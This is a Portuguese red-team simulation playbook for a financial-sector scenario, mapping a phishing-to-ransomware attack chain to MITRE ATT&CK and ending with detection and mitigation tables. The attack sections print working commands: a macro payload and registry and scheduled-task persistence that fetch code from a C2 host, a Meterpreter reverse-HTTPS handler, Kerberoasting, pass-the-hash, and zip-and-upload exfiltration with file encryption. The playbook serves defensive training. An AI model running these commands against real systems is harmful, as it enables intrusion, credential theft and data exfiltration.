

# Playbook de Simulação Red Team — Cenário Setor Financeiro


---

## Índice
- [Objetivo de Negócio](#1-objetivo-de-negócio-impacto-simulado)
- [Acesso Inicial](#2-acesso-inicial--phishing-direcionado)
- [Execução e Persistência](#3-execução-e-persistência)
- [Movimento Lateral e Coleta](#4-movimento-lateral-e-coleta)
- [Exfiltração / Impacto](#5-exfiltração--impacto)
- [Detecção, Contenção e Mitigação](#6-detecção-contenção-e-mitigação)
- [Mapeamento MITRE ATT&CK](#7-mapeamento-mitre-attck)
- [Controles Compensatórios](#8-controles-compensatórios)
- [Conclusão](#9-conclusão)
- [Referências Externas](#10-referências-externas)
- [Diagrama MITRE ATT&CK](#-diagrama-da-cadeia-de-ataque-mitre-attck)

---

## 1. Objetivo de Negócio (Impacto Simulado)
- Avaliar a resiliência contra **comprometimento do Active Directory**.  
- Testar capacidade de detecção e resposta a **ransomware + exfiltração de dados**.  
- Impacto simulado:
    - Indisponibilidade de serviços de internet banking e pagamentos.
    - Vazamento de dados bancários e PII (informações pessoais).
    - Penalidades regulatórias (BACEN, LGPD) e danos à reputação.

---

## Fluxo do Ataque (Diagrama Mermaid)


---

## 2. Acesso Inicial – **Phishing Direcionado**
Vetor: e-mail com anexo malicioso ou link falso.  
Exemplo de comandos:
```bash
macro_pack.exe --template=word --payload="powershell -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/payload.ps1')" --obfuscate

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 10.10.10.5
set LPORT 443
run
```

**MITRE ATT&CK:** T1566.001 (Phishing com Anexo), T1059 (PowerShell).

---

## 3. Execução e Persistência
Execução in-memory + persistência via registro e tarefas agendadas:
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v OneDriveUpdate /t REG_SZ /d "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/loader.ps1')" /f

schtasks /create /tn "WindowsUpdate" /tr "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://c2/update.ps1')" /sc minute /mo 30
```

**MITRE ATT&CK:** T1547.001 (Registro), T1053.005 (Tarefas Agendadas).

---

## 4. Movimento Lateral e Coleta
Enumeração e exploração:
```powershell
Get-ADUser -Filter * -Properties ServicePrincipalName | select Name, ServicePrincipalName
net group "Domain Admins" /domain

Invoke-Kerberoast
GetUserSPNs.py finbank.local/user:password -dc-ip 10.10.10.10 -request

crackmapexec smb 10.10.10.10 -u admin -H <NTLMHASH>
rpcclient -U user%pass 10.10.10.10
setuserinfo2 targetuser 23 "NovaSenha123!"
```

**MITRE:** T1087.002 (Enumeração de Contas), T1558.003 (Kerberoasting), T1021.001 (SMB).

---

## 5. Exfiltração / Impacto
Compressão e upload simulado:
```powershell
Compress-Archive -Path C:\financeiro\dados\* -DestinationPath C:\Users\Public\relatorio.zip
Invoke-WebRequest -Uri "https://armazenamento-seguro.com/upload" -Method POST -InFile "C:\Users\Public\relatorio.zip"
cipher /e C:\financeiro\dados
```

**MITRE:** T1041 (Exfiltração via C2), T1486 (Criptografia para Impacto).

---

## 6. Detecção, Contenção e Mitigação
| Fase            | Detecção                                      | Mitigação                                      |
|-----------------|-----------------------------------------------|-----------------------------------------------|
| Acesso Inicial  | Alertas EDR, sandbox                         | MFA, bloquear macros, simulações de phishing |
| Execução        | Logs PowerShell (4104), AMSI                 | AppLocker, WDAC                               |
| Movimento       | Eventos 4624, 4768, consultas LDAP           | Restringir ACLs, AES-Only, monitorar queries |
| Exfiltração     | DLP, análise proxy                           | Inspeção TLS, bloquear uploads externos       |

---

## 7. Mapeamento MITRE ATT&CK
| Tática                 | Técnicas                                        |
|------------------------|-----------------------------------------------|
| Acesso Inicial         | T1566.001 (Phishing)                         |
| Execução               | T1059 (PowerShell)                           |
| Persistência           | T1547.001 (Registro), T1053.005 (Tarefas)    |
| Escalação de Privilégio| T1558.003 (Kerberoasting), Abuso de ACLs     |
| Movimento Lateral      | T1021.001 (SMB/WinRM), Pass-the-Hash         |
| Coleta                 | T1087.002 (Enumeração AD)                    |
| Exfiltração            | T1041 (Exfiltração via C2)                   |
| Impacto                | T1486 (Criptografia para Impacto)            |

---

## 8. Controles Compensatórios
- Proteção avançada contra phishing (SPF/DKIM/DMARC, sandbox).
- Endurecimento do AD: AES-Only, modelo tiered admin, Protected Users.
- Segmentação de rede para limitar movimento lateral; restrição SMB.
- SIEM com correlação para TTPs MITRE e honeypots para detecção.

---

## 9. Conclusão
Este exercício demonstra como um ataque direcionado pode **comprometer o AD, exfiltrar dados sensíveis e paralisar operações críticas**.  
**Riscos corporativos identificados:**
- Perdas financeiras por indisponibilidade e fraude.
- Vazamento de dados que impacta **compliance (LGPD, BACEN) e reputação**.
- Persistência furtiva levando a custos altos de remediação e downtime.

**Lições aprendidas:** Implementar **testes ofensivos contínuos e monitoramento defensivo** é essencial para reduzir a superfície de ataque.

---

## 10. Referências Externas
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Microsoft Protegendo Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices)
- [LGPD – Lei Geral de Proteção de Dados](https://www.gov.br/cidadania/pt-br/acesso-a-informacao/lgpd)
- [BACEN – Política de Segurança Cibernética](https://www.bcb.gov.br/estabilidadefinanceira/politicaseguranca)
- [CIS Critical Security Controls v8](https://www.cisecurity.org/controls/cis-controls-list)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [SANS Recursos de Resposta a Incidentes](https://www.sans.org/incident-response/)

---

## Diagrama da Cadeia de Ataque MITRE ATT&CK

```mermaid
graph LR
    A[Acesso Inicial] --> B[Execução]
    B --> C[Persistência]
    C --> D[Escalação de Privilégio]
    D --> E[Movimento Lateral]
    E --> F[Coleta]
    F --> G[Exfiltração]
    G --> H[Impacto]

    A -->|T1566.001| B
    B -->|T1059| C
    C -->|T1547.001 / T1053.005| D
    D -->|T1558.003| E
    E -->|T1021.001| F
    F -->|T1087.002| G
    G -->|T1041| H
    H -->|T1486| H
```

